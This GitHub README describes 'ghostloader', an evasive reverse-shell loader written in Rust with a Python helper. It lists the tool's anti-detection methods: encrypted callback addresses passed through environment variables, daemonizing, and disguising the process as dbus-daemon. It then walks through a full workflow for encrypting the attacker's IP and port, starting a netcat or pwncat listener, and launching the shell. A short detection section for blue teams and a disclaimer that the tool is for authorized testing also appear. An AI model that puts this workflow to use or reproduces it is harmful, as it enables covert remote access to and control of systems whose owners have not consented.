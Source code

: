 # 👻 ghostloader


> 🔐 Runtime-only, encrypted reverse shell loader in Rust – with zero hardcoded IPs, keys, or ports. Payload data is provided securely via AES-GCM encrypted environment variables.

---

## 🎯 Project Goal

**ghostloader** is a hardened reverse shell launcher written in Rust, designed to avoid detection by:

- Not storing payloads in binaries
- Not using hardcoded IPs, ports, or cryptographic material
- Using AES-GCM encryption for runtime-loaded payloads
- Generating the decryption key from the host's UID + hostname
- Running in the background via daemonization (`fork()` + `setsid`)
- Obfuscating its process name (e.g., as `dbus-daemon`)
- Avoiding `.bash_history` or file system persistence

---

## 🧠 Concept Overview

The reverse shell destination (`IP + Port`) is encrypted with AES-GCM using:

- A **32-byte user-provided AES key**
- Combined with the current **UID** and **hostname**
- Encrypted data is stored in environment variables at runtime

> This allows **per-session or per-target shells** without needing to rebuild the binary. 

A Python helper script creates these environment variables for you.

---

## ⚠️ Blue Team Testing Notice

This project is intended for:

- **Blue Teams and Incident Response** to test defensive visibility
- **Red Team Simulations** in lab environments
- **CTF training** where payload customization is required

🚫 Do **not** use this tool in unauthorized environments.  
✅ Always have written permission when testing.

---

## 📦 Features

- ✅ No hardcoded secrets (IP, key, port, etc.)
- ✅ Random IV + AAD for each session (optional override)
- ✅ AES-GCM 256-bit encryption with host-specific derivation
- ✅ Built-in retries + jitter for resilience
- ✅ Clean Rust async + 'tokio' implementation
- ✅ `zeroize` on decrypted buffers and keys
- ✅ Fork/daemon shell, no direct parent
- ✅ Obfuscated process name (`dbus-daemon` or custom)
- ⏳ Planned: `memfd`, unlink-after-open, pipe-only, anti-debugging

---

## ⚙️ How It Works

1. Generate an **AES key**:
```bash
   export AES_KEY=$(openssl rand -hex 32)
   ```
2. Use the Python helper to create the encrypted payload:
```python
   python3 ghostloader.py 4444 --key "$AES_KEY"
```
3. Export the resulting environment variables:
```text
	export AES_KEY=...
	export ENC_PAYLOAD=...
	export ENC_IV=...
	export ENC_AAD=...
```
4. Run the ghostloader binary:
```text
	./ghostloader
```

### If decryption succeeds, the binary will:
- Spawn an interactive /bin/sh via reverse connection
- Retry up to 20x if offline (with jitter)
- Exit cleanly and securely if decryption or connection fails

# 🐍 Python: ghostloader.py
Helper to encrypt IP+port payloads for injection via env vars.

✅ Example:
```text
export AES_KEY=$(openssl rand -hex 32)
python3 ghostloader.py 4444 --loopback --key "$AES_KEY"
```

📦 Output:
```bash
Hostname: kali
UID: 1000

# --- Oneliner ENV export ---
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...
# ----------------------------
```

| Argument     | Description                                |
| ------------ | ------------------------------------------ |
| `port`       | Port to connect back to (required)         |
| `ip`         | Optional IP (default: detected via `tun0`) |
| `--loopback` | Use `127.0.0.1` instead of external IP     |
| `--key`      | Required AES key (32-byte hex)             |
| `--iv`       | Optional static IV (12-byte hex)           |
| `--aad`      | Optional static AAD (8-byte hex)           |

# 🦀 Rust Binary: ghostloader
## 🔧 Build instructions

🦀 Compile with Cargo (optimized)
```text
git clone https://github.com/y0uall/ghostloader.git
cd ghostloader

# Build optimized binary
cargo build --release
strip target/release/ghostloader
```

## 🚀 Sample Workflow

```bash
# 1. Generate AES key
export AES_KEY=$(openssl rand -hex 32)

# 2. Encrypt the target IP + port
# ➤ If --loopback is used, the IP is set to 127.0.0.1
# ➤ If no IP is given, the script auto-detects your VPN IP via interface 'tun0'
python3 ghostloader.py 4444 --key "$AES_KEY"

# 3. Export the generated values (copied from Python output)
export AES_KEY=... && export ENC_PAYLOAD=... && export ENC_IV=... && export ENC_AAD=...

# 4. Start listener on your machine:
nc -lvnp 4444
pwncat-cs -lp 4444

# 5. Launch the ghostloader
./ghostloader
```

# 🔬 Detection Opportunities (for Blue Teams)

```text
- Suspicious parentless sh -i shells
- Connections to known C2 ports shortly after binary execution
- Reverse shell spawning from processes named dbus-daemon
- AES_KEY, ENC_* environment variables (from /proc/PID/environ)
- Short-lived child processes with dup2() on socket FDs
```

## 📁 Project Structure

```bash
.
├── ghostloader.rs        # Rust reverse shell loader (hardened)
├── ghostloader.py        # Python encryption helper
├── README.md             # This file
```

#❗Disclaimer

This project is provided for educational and research purposes only.
Use it only in authorized environments with proper permissions.
The authors are not responsible for misuse.

## 🧪 Future Ideas

- memfd_create and in-memory execution
- Encrypted config via pipe() or stdin
- Secure auto-clean of parent shell env
- Randomized timing logic
- Integration with C2 frameworks

## 🧠 Name Origin

- ghostloader = ephemeral, invisible, in-memory loader
- It's quiet, leaves no trace, and vanishes after use. 👻

Made with ❤️ for learning, testing, and advancing defense.

## License

This project is licensed under the [MIT License](LICENSE).